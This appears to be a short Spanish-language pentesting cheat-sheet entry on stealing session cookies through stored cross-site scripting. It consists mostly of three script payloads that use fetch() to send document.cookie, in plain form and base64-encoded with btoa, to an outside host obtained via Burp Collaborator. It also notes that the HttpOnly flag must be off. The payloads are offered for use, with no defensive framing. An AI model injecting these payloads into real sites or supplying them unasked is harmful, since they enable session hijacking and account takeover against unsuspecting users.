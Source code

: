 # Robo de cookies mediante XSS almacenado sin sanitización 

Tags: #XSS  #JavaScript 

```javascript 
// Se debe de usar BurpSuite Collaborator para obtener el dominio 

	// PoC1
	<script>
		fetch("https://website.com/test");
	</script>


	//PoC2 para devolver la cookie de sesión 
	<script>
		fetch("https://website.com/?cookie=" + document.cookie);
	</script>


	//PoC3 para devolver la cookie de sesión en base64
	<script>
		fetch("https://website.com/?cookie=" + btoa(document.cookie));
	</script>


Notas:
	1. Con 'fetch()' es posible lanzar solicitudes GET y POST 
	2. btoa hace que el contenido lo muestre en base64 
	3. No debe de estar activada la flag 'HttpOnly'
```
